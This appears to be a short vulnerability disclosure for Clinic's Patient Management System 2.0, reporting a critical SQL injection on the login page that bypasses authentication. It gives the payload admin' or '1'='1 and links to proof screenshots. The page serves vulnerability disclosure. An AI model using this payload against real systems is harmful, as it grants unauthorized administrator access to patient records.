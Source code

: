 #### Title: Clinic's Patient Management System 2.0 SQLi
#### Author: Ashish Kumar (https://www.linkedin.com/in/ashish-kumar-0b65a3184)
#### Date: 04.07.2022
#### Vendor: https://www.sourcecodester.com/users/tips23
#### Software: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code
#### Version: 2.0
#### Reference: https://github.com/CyberThoth/CVE/blob/main/CVE/Clinic's%20Patient%20Management%20System/SQLi/POC.md

#### Description:
### It was discovered that SQL Injection techniques can be used to fool the application into authenticating without the needing valid credentials. SQL Injection vulnerabilities on login pages expose an application to unauthorized access at the administrator level, thereby severely compromising the security of the application.

# Status: CRITICAL

### [+] Payloads:

``` 
Username: = admin' or '1'='1
Password: = Cyberthoth;)

```


## Proof and Exploit:
1 ![image](https://github.com/CyberThoth/CVE/blob/5198ef2d56f9c818654bbe131c7f7e3055923f23/CVE/Clinic's%20Patient%20Management%20System/SQLi/1.png)

2 ![image](https://github.com/CyberThoth/CVE/blob/5198ef2d56f9c818654bbe131c7f7e3055923f23/CVE/Clinic's%20Patient%20Management%20System/SQLi/2.png)


3 ![image](https://github.com/CyberThoth/CVE/blob/5198ef2d56f9c818654bbe131c7f7e3055923f23/CVE/Clinic's%20Patient%20Management%20System/SQLi/3.png)

